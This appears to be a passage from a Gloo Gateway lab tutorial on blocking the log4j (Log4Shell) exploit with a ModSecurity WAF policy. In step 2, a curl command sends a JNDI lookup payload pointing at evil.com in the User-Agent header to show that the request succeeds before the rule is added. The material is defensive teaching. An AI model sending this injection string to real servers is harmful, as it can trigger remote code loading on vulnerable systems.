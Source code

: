 Gloo Gateway utilizes OWASP ModSecurity to add WAF features into the ingress gateway. Not only can you enable the [OWASP Core Rule Set](https://owasp.org/www-project-modsecurity-core-rule-set/) easily, but also you can enable many other advanced features to protect your applications.

In this section of the lab, take a quick look at how to prevent the `log4j` exploit that was discovered in late 2021. For more details, you can review the [Gloo Edge blog](https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/) that this implementation is based on.

1. Refer to following diagram from Swiss CERT to learn how the `log4j` attack works. Note that a JNDI lookup is inserted into a header field that is logged.
![log4j exploit](images/log4j_attack.png)

2. Confirm that a malicious JNDI request currently succeeds. Note the `200` success response. Later, you create a WAF policy to block such requests.

```sh
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" https://$GLOO_GATEWAY/httpbin/get
```

3. With the Gloo WAF policy custom resource, you can create reusable policies for ModSecurity. Review the `log4j` WAF policy and the frontend route table. Note the following settings.

* In the route table, the frontend route has the label `route: httpbin`. The WAF policy applies to routes with this same label.
* In the WAF policy config, the default core rule set is disabled. Instead, a custom rule set is created for the `log4j` attack.
